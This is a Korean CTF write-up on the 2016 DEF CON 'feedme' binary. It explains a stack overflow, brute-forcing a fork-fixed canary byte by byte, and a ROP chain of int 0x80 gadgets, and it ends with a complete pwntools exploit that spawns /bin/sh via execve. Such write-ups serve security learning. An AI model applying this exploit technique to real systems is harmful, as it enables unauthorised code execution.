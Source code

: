 ```yaml
---
title: "2016 Defcon CTF Feedme"
date: 2019-12-30
tags: [Defcon]
categories: [Defcon]
---
```


```
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

바이너리 stripped 되어있고 statically linked라 좀 분석하기 어려워졌다.

`0x0804917A` 여기가 메인 함수고 메인함수에서는 그냥 signal함수를 이용해 SIGALARM을 150초 설정해놨다. 

그 이후  `sub_80490B0` 함수를 호출하는데 이 함수에서는 fork를 이용해 자식 프로세스를 생성한다. 0x31F번을 반복하는데 이 곳에서 우리가 입력받는 함수도 호출해준다. 

```c
int sub_8049036()
{
  unsigned __int8 v0; // ST1B_1
  char *v1; // eax
  int result; // eax
  char v3; // [esp+1Ch] [ebp-2Ch]
  unsigned int v4; // [esp+3Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  sub_804FC60("FEED ME!"); // puts
  v0 = sub_8048E42(); // size
  sub_8048E7E(&v3, v0); // input
  v1 = sub_8048F6E(&v3, v0, 0x10u); // convert 10 -> 16
  sub_804F700("ATE %s\n", v1); // printf
  result = v0;
  if ( __readgsdword(0x14u) != v4 )
    sub_806F5B0();
  return result;
}
```

여기가 우리가 입력받는 함수다. canary가 걸려있다. 

`sub_8048E42()` 함수는 입력한 문자열의 아스키 값을 v0에 저장한다. 

 `sub_8048E7E` 함수에서는 v0의 크기만큼을 입력을 받는데 v3 버퍼에 저장해준다.

`sub_8048F6E` 요기서 16진수 hex값으로 변환해준다. 

`sub_806F5B0()` 여기는 그냥 카나리 값 비교해주고 stack smashing detect 띄워주는 곳이다.

여기서 취약점 터진다. 카나리를 제외하고 buf 크기는 0x20만큼이다. 근데 여기서 buf 다음에 카나리가 있어서 canary 값을 1 byte bruteforce해줘서 canary leak해 줄 수 있다. 그리고 fork를 사용하기 때문에 카나리가 고정 값이다. `stack smashing detected` 가 안 뜰때 까지 bruteforing 해주면 된다.

익스는 그냥 statically linked 바이너리라 웬만한 가젯들이 다 있어서 syscall을 위한 가젯들이 다 있을거다.

 `int0x80 ret;  pop eax ret; pop ebx pop ecx pop ebx ret;` 이 가젯들 이용해서 syscall 다 맞춰줘서 read 이용해 bss영역에 `/bin/sh\x00` 을 넣고 `execve` 함수 이용해서 익스했다. 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'

e = ELF('./feedme')
p = process('./feedme')

peax = 0x080bb496 # pop eax ; ret
pop3ret = 0x0806f370 # pop edx ; pop ecx ; pop ebx ; ret
int0x80 = 0x0806fa20 # int 0x80 ; ret  ;  (1 found)

canary = ''
p.recvuntil('FEED ME!\n')
for j in range(0,4):
	for i in range(0,256):
		go = 'A'*0x20+canary+chr(i)
		p.send(chr(len(go)))
		p.send(go)
		if not 'stack smashing detected' in p.recvuntil("FEED ME!\n"):
			canary += chr(i)
			print canary
			break
log.info('canary : ' + canary)

payload = 'A'*0x20
payload += canary
payload += 'B'*12
payload += p32(peax) + p32(0x3)
payload += p32(pop3ret) + p32(10) + p32(e.bss()) + p32(0) + p32(int0x80)
payload += p32(peax) + p32(0xb)
payload += p32(pop3ret) + p32(0) + p32(0) + p32(e.bss()) + p32(int0x80)

p.send(chr(len(payload)))
p.send(payload)
sleep(0.1)
p.send('/bin/sh\x00')

p.interactive()
```





